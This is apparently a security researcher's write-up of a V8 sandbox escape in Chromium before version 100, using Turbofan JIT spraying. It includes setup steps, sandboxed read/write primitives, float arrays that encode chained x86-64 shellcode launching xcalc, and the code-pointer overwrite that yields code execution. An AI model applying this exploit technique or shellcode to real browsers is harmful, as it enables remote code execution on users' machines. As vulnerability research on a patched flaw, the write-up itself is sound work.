










# Escaping V8 Sandbox via Turbofan JIT Spraying: Part 1 (Chromium < 100.0.4896.60)

In this post, I will explain how to escape V8 sandbox via Turbofan JIT Spraying to get RCE, while we have limited exploitation primitives like `addrof` and sandboxed AAR/AAW primitives.

## Setup

- Ubuntu 20.04.6 LTS (WSL)
- [9d0222424e6adf89663949d9e60e5ffe77d1cc83](https://chromium.googlesource.com/v8/v8/+/9d0222424e6adf89663949d9e60e5ffe77d1cc83) (Jan 24th, 2022)

Save [`sandbox.diff`](./sandbox.diff) and [`setup.zsh`](./setup.zsh) in your working directory and run `setup.zsh`.

`sandbox.diff` is the same patch with [[sandbox\] Add new Memory Corruption API](https://chromium.googlesource.com/v8/v8/+/4a12cb1022ba335ce087dcfe31b261355524b3bf) (May 20th, 2022). Applying this patch, we can implement limited exploitation primitives using memory corruption API.

## Exploitation

### Implement exploitation primitives

We can implement sandboxed [`addrof`](./pwn.js#L9) primitive which returns address of arbitrary JavaScript object in V8 sandbox, using `Sandbox.getAddressOf`. Also, we can implement sandboxed [AAR](./pwn.js#L14)/[AAW](./pwn.js#L20) primitives which read and write value at arbitrary address in V8 sandbox, using `Sandbox.MemoryView`.

### JIT (Just-In-Time) spraying

```js
// flags: --allow-natives-syntax --shell

function jit() { return [1.1, 2.2, 3.3]; }

for (let i = 0; i < 10000; i++) { jit(); jit(); jit(); jit(); jit(); jit(); } // compile via turbofan

% DebugPrint(jit);
```







`jit()` is a function which returns an array consisted of float numbers. After `jit()` is compiled via Turbofan, the numbers in returned array are inserted to the optimized code as raw numbers. It means that we can insert arbitrary 8-byte numbers to executable code region. If we can move `rip` to the address of this number, it will act like an 8-byte shellcode.

### Construct shellcode chain

With just 8-byte shellcode, we won't be able to do what we want to do. Instead, we can chain several short shellcodes using `jmp` instruction.

[`shellcode.py`](./shellcode.py)



```js
// flags: --allow-natives-syntax --shell

function jit() {
    return [
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112871410787e-246, // 0xceb9050636cb866
        1.9711314215434657e-246, // 0xceb906163782fb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9616425752617766e-246, // 0xceb6e69622f0548
        1.9711832695973408e-246, // 0xceb9090e7894850
        1.971182900582351e-246, // 0xceb909090f63148
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112653196158e-246, // 0xceb9050303ab866
        1.9710920957760286e-246, // 0xceb903d59414cb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9532382542574046e-246, // 0xceb505349440548
        1.971183239760578e-246, // 0xceb9090e0894850
        1.9711128050518315e-246, // 0xceb905053db3148
        1.971182900255075e-246, // 0xceb909090e28948
        1.9710902863710406e-246, // 0xceb903bb0c03148
        -6.828527034370483e-229 // 0x909090909090050f
    ];
}

for (let i = 0; i < 10000; i++) { jit(); jit(); jit(); jit(); jit(); jit(); } // compile via turbofan

% DebugPrint(jit);
```



If there are same numbers in the array which `jit()` returns, the optimized code remembers that number in register and reuse it later. If so, chain is broken and shellcode doesn't work. Therefore, we should slightly change the order of instructions or move the position of `nop` instructions to make sure that all numbers are different, like following:

```js
function jit() {
    return [
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112871410787e-246, // 0xceb9050636cb866
        1.9711314215434657e-246, // 0xceb906163782fb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9616425752617766e-246, // 0xceb6e69622f0548
        1.9711832695973408e-246, // 0xceb9090e7894850
        1.971182900582351e-246, // 0xceb909090f63148
        1.9711831018987653e-246, // 0xceb9090c0314890 (edited)
        1.971112653196158e-246, // 0xceb9050303ab866
        1.9710920957760286e-246, // 0xceb903d59414cb8
        1.9710610293119303e-246, // 0xceb9020e0c14890 (edited)
        1.9532382542574046e-246, // 0xceb505349440548
        1.971183239760578e-246, // 0xceb9090e0894850
        1.9711128050518315e-246, // 0xceb905053db3148
        1.971182900255075e-246, // 0xceb909090e28948
        1.9710902863710406e-246, // 0xceb903bb0c03148
        -6.828527034370483e-229 // 0x909090909090050f
    ];
}
```

### Hijack execution flow

When a Turbofan-compiled function is called, we can see following execution flow:





It first stores 4-byte value stored in `rdi + 0x17` in `rcx`, which is address of `code` of the function.





After that, it adds `0x3f` to `rcx` and jump to that address, in which compiled code of the function is stored.

`Function` object is inside of V8 sandbox, so we can overwrite the address of `code` stored in `Function` object using sandboxed AAW primitive, then control `rip`. Overwriting this with address of shellcode, we can execute it by simply calling the function.

You have to install `/bin/xcalc` by running `sudo apt install -y x11-apps` before executing [`pwn.js`](./pwn.js) if you are using WSL.



## Patch

> [[ext-code-space] Enable external code space on x64 and desktop arm64](https://chromium.googlesource.com/v8/v8/+/7fc4868e477cc7cb7ef8c304fff214ea83498e7a) (Jan 24th, 2022)
